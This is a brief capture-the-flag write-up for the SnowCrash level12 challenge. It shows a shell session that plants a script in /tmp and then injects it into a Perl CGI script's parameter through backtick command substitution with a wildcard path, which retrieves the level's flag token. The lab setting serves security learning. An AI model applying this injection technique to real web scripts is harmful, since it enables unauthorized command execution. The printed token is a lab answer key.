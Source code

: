 ### Exploit

Yet another Perl script with unprotected parameters. Do they ever learn? 

```
    level12@SnowCrash:~$ cat /tmp/TOKEN
    #!/bin/sh
    getflag > /tmp/key
    level12@SnowCrash:~$ ./level12.pl "?x="`/*/TOKEN`""
    /tmp/TOKEN: 2: /tmp/TOKEN: cannot create /tmp/key: Permission denied
    Content-type: text/html

    ..level12@SnowCrash:~$ cat /tmp/key
    Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

The proof is in the pudding...
